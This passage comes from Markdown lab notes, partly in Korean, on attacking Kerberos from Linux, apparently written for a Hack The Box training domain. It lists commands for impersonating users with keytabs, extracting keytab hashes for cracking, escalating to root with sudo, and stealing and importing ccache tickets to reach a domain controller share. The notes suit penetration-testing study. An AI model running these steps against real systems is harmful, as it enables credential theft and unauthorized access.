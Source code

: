 ```
#### keytab을 사용하여 사용자 가장하기
```
$ klist
$ kinit carlos@INLANEFREIGHT.HTB -k -t
$ klist
```
> **kinit**은 대소문자를 구분하므로 klist에 표시된 것처럼 주체 이름을 사용해야 함

#### Connecting to SMB Share as Carlos
```$ smbclient //dc01/carlos -k -c ls```

### Keytab Extract

#### KeyTabExtract를 사용하여 키탭 해시 추출
```$ python3 /opt/keytabextract.py /opt/specialfiles/carlos.keytab```
- [Hashcat](https://hashcat.net/), [John the Ripper](https://www.openwall.com/john/), [https://crackstation.net/](https://crackstation.net/)

#### Log in as Carlos
```
$ su - carlos@inlanefreight.htb
$ klist
```

### Abusing Keytab ccache

#### Privilege Escalation to Root
```
$ sudo -l
(사용자가 모든 명령을 루트로 실행할 수 있는 경우)
$ sudo su
```

#### Looking for ccache Files
```# ls -la /tmp```

#### id 명령을 사용하여 그룹 멤버십 식별
```# id julio@inlanefreight.htb```

#### Importing the ccache File into our Current Session
```
# klist
# cp /tmp/krb5cc_647401106_I8I133 .
# export KRB5CCNAME=/root/krb5cc_647401106_I8I133
# klist
# smbclient //dc01/C$ -k -c ls -no-pass
```

### Kerberos와 함께 Linux 공격 도구 사용

#### Host File Modified
```
$ cat /etc/hosts
